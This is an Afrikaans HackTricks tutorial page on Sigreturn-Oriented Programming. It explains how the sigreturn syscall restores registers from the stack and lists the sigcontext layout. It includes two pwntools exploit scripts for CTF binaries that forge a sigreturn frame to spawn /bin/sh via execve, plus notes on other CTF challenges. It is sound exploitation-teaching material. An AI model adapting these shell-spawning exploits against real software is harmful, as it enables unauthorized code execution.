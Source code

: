 # SROP - Sigreturn-Oriented Programming

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

**`Sigreturn`** is 'n spesiale **syscall** wat hoofsaaklik gebruik word om op te skoon nadat 'n seinhanterer sy uitvoering voltooi het. Signale is onderbrekings wat deur die bedryfstelsel na 'n program gestuur word, dikwels om aan te dui dat 'n buitengewone situasie plaasgevind het. Wanneer 'n program 'n sein ontvang, stel dit tydelik sy huidige werk uit om die sein met 'n **seinhanterer** te hanteer, 'n spesiale funksie wat ontwerp is om met seine om te gaan.

Nadat die seinhanterer klaar is, moet die program sy vorige toestand **hervat** asof niks gebeur het nie. Dit is waar **`sigreturn`** in die prentjie kom. Dit help die program om **terug te keer van die seinhanterer** en herstel die program se toestand deur die stapelraamwerk (die gedeelte van geheue wat funksie-oproepe en plaaslike veranderlikes stoor) wat deur die seinhanterer gebruik is, skoon te maak.

Die interessante deel is hoe **`sigreturn`** die program se toestand herstel: dit doen dit deur **al die CPU se registerwaardes op die stapel te stoor.** Wanneer die sein nie meer geblokkeer word nie, **haal `sigreturn` hierdie waardes van die stapel af**, wat die CPU se register effektief herstel na hul toestand voordat die sein hanteer is. Dit sluit die stapelpuntregister (RSP) in, wat na die huidige bopunt van die stapel wys.

{% hint style="danger" %}
Om die syscall **`sigreturn`** vanaf 'n ROP-ketting te roep en **die registerwaardes by te voeg** wat ons wil hê dit in die **stapel** moet laai, is dit moontlik om al die registerwaardes te **beheer** en dus byvoorbeeld die syscall `execve` met `/bin/sh` te **roep**.
{% endhint %}

Let daarop dat hierdie 'n **tipe Ret2syscall** sou wees wat dit baie makliker maak om parameters te beheer om ander Ret2syscalls te roep:

{% content-ref url="rop-syscall-execv/" %}
[rop-syscall-execv](rop-syscall-execv/)
{% endcontent-ref %}

As jy nuuskierig is, hierdie is die **sigcontext-struktuur** wat op die stapel gestoor word om die waardes later te herstel (diagram van [**hier**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
Vir 'n beter verduideliking, kyk ook:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Voorbeeld

Jy kan 'n [**voorbeeld hier vind**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) waar die oproep na signeturn opgebou word via ROP (met die waarde `0xf` in rxa), alhoewel dit die finale aanval is van daar af:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Kyk ook na die [**exploit van hier**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) waar die binêre reeds `sigreturn` aanroep en dit dus nie nodig is om dit met 'n **ROP** te bou nie:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## Ander Voorbeelde & Verwysings

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* Monteerbare binêre wat toelaat om na die stok te **skryf** en dan die **`sigreturn`** systaalaanroep te maak. Dit is moontlik om op die stok 'n [**ret2syscall**](rop-syscall-execv/) te skryf via 'n **sigreturn** struktuur en die vlag wat binne die geheue van die binêre is, te lees.
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* Monteerbare binêre wat toelaat om na die stok te **skryf** en dan die **`sigreturn`** systaalaanroep te maak. Dit is moontlik om op die stok 'n [**ret2syscall**](rop-syscall-execv/) te skryf via 'n **sigreturn** struktuur (die binêre het die string `/bin/sh`).
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64-bits, geen relro, geen kanarie, nx, geen pie. Eenvoudige buffer oorvloed wat die `gets` funksie misbruik met 'n gebrek aan gadgets wat 'n [**ret2syscall**](rop-syscall-execv/) uitvoer. Die ROP-ketting skryf `/bin/sh` in die `.bss` deur weer gets te roep, dit misbruik die **`alarm`** funksie om eax na `0xf` te stel om 'n **SROP** te roep en 'n skaal uit te voer.
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64-bits monteerprogram, geen relro, geen kanarie, nx, geen pie. Die vloei maak dit moontlik om in die stok te skryf, verskeie registre te beheer, 'n systaalaanroep te maak en dan `exit` te roep. Die gekose systaalaanroep is 'n `sigreturn` wat registre sal stel en `eip` sal skuif om 'n vorige systaalinstruksie te roep en `memprotect` te hardloop om die binêre spasie na `rwx` te stel en die ESP in die binêre spasie te stel. Volgens die vloei sal die program weer intro ESP lees, maar in hierdie geval sal ESP na die volgende instruksie wys sodat die oordra van 'n skaal dit as die volgende instruksie sal skryf en dit sal uitvoer.
